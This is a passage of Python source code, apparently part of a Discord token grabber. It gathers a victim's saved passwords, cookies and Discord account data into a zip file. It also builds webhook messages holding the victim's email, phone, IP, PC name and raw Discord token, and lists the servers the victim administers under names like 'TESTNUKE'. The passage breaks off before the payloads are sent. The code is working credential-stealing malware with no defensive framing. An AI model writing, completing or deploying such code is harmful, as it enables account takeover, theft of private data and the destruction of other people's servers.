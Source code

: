                         discord_info = get_discord_info(value)
                        
                        temp_dir = os.path.join(tempfile.gettempdir(), f"discord_data_{user_id}")
                        os.makedirs(temp_dir, exist_ok=True)
                        
                        passwords_file = os.path.join(temp_dir, "passwords.json")
                        cookies_file = os.path.join(temp_dir, "cookies.json")
                        discord_file = os.path.join(temp_dir, "discord_info.json")
                        
                        with open(passwords_file, 'w') as f:
                            json.dump(all_passwords, f, indent=4)
                            
                        with open(cookies_file, 'w') as f:
                            json.dump(all_cookies, f, indent=4)
                            
                        with open(discord_file, 'w') as f:
                            json.dump(discord_info, f, indent=4)
                        
                        zip_path = os.path.join(tempfile.gettempdir(), f"{user_id}_data.zip")
                        with zipfile.ZipFile(zip_path, 'w') as zipf:
                            for root, dirs, files in os.walk(temp_dir):
                                for file in files:
                                    zipf.write(os.path.join(root, file), 
                                              os.path.relpath(os.path.join(root, file), 
                                                             os.path.join(temp_dir, '..')))
                        
                        embed = f"""**{user_name}** *({user_id})*\n
> :dividers: __Account Information__\n\tEmail: `{email}`\n\tPhone: `{phone}`\n\t2FA/MFA Enabled: `{mfa_enabled}`\n\tNitro: `{has_nitro}`\n\tExpires in: `{days_left if days_left else "None"} day(s)`\n
> :busts_in_silhouette: __Discord Info__\n\tFriends: `{discord_info['friends_count']}`\n\tServers: `{discord_info['guilds_count']}`\n\tAdmin Servers: `{discord_info['admin_guilds_count']}`\n
> :computer: __PC Information__\n\tIP: `{ip}`\n\tUsername: `{pc_username}`\n\tPC Name: `{pc_name}`\n\tPlatform: `{platform}`\n
> :piñata: __Token__\n\t`{value}`\n"""

                        admin_servers = "**ADMIN SERVERS:**\n"
                        for guild in discord_info['admin_guilds'][:10]:
                            admin_servers += f"• {guild['name']} ({guild['id']}){' - Owner' if guild.get('owner') else ''}\n"
                        
                        if len(discord_info['admin_guilds']) > 10:
                            admin_servers += f"... and {len(discord_info['admin_guilds']) - 10} more\n"
                        
                        payloads = []
                        payloads.append(json.dumps({
                            'content': embed, 
                            'username': 'NatsumiGOD', 
                            'avatar_url': 'https://pin.it/2fAEkuMLG'
                        }))
                        
                        if discord_info['admin_guilds']:
                            payloads.append(json.dumps({
                                'content': admin_servers, 
                                'username': 'TESTNUKE', 
                                'avatar_url': 'https://pin.it/2fAEkuMLG'
                            }))
